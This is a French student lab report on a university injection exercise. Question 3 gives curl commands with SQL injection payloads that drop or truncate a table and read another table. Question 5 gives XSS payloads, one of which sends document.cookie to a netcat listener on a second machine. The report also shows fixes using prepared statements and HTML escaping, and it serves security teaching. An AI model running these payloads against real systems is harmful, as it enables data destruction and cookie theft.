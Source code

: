 # Rendu "Injection"

## Binome

- ABDULLAH Mohamed <mohamad.abdullah.etu@univ-lille.fr>
- LAKHDAR Selim <selim.lakhdar.etu@univ-lille.fr>


## Question 1

* Le mécanisme utilisé est un controle grâce à une regex. On ne peut entrer que des chiffres ou des lettres.

* Non, car le côntrole est effectué côté client. Il suffit de désactiver les scripts JS.

## Question 2

* Commande curl qui bypass la vérification

```
- curl -X POST -d "chaine=Mohamed" http://172.28.101.47:8080/

- curl -X POST -d "chaine=Mohamed@Selim" http://172.28.101.47:8080/
```

## Question 3

* Votre commande curl pour effacer la table (V1)

```
- curl -X POST -d "chaine=%22%29%3B+DROP+TABLE+chaines%3B--" http://172.28.101.47:8080/
- curl -X POST -d "chaine=%22%29%3B+TRUNCATE+TABLE+chaines%3B--" http://172.28.101.47:8080/
- curl -X POST -d 'chaine=");+TRUNCATE+TABLE+chaines%3B--' http://172.28.101.47:8080/
- curl -X POST -d 'chaine=");+DROP+TABLE+chaines%3B--' http://172.28.101.47:8080/
```

* commande pour bypass le champ who 
```
- curl -X POST -d "chaine=hacked','000000')#" http://172.28.101.47:8080/ 
```
* Expliquez comment obtenir des informations sur une autre table

- Il suffit d'échapper la commande SQL et de rajouter un SELECT * FROM othertable.
- De plus on sait que MySQL crée une table information_schema qui garde toutes les infos sur une Table.

```
- curl -X POST -d "chaine=hacked','000000')+AND+SELECT+*+FROM+chaines2#" http://172.28.101.47:8080/
```

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de sécurité. Expliquez comment vous avez corrigé la faille.  

- Il faut utiliser des rêquetes préparées. 

```
requete = """INSERT INTO chaines (txt,who) VALUES (%s,%s)"""
cursor.execute(requete, [post["chaine"], cherrypy.request.remote.ip])
```
## Question 5

* Commande curl pour afficher une fenetre de dialog.

```
- curl -X POST -d "chaine=<script>alert('bonjour')</script>" http://172.28.101.47:8080/
```

* Commande curl pour lire les cookies

```
- curl -X POST -d "chaine=<script>alert(document.cookie)</script>" http://172.28.101.47:8080/
```

* Commande curl pour voler les cookies

```
- nc -l -p 6666 (sur la machine 172.28.101.111)
- curl -X POST -d "chaine=<script>location.replace(\"http://172.28.101.111:6666?c=\"+document.cookie)</script>" http://172.28.101.47:8080
```

## Question 6

Rendre un fichier server_xss.py avec la correction de la faille. Expliquez la demarche que vous avez suivi.

- Il faut échapper les caractères spéciaux grâce à html.escape()


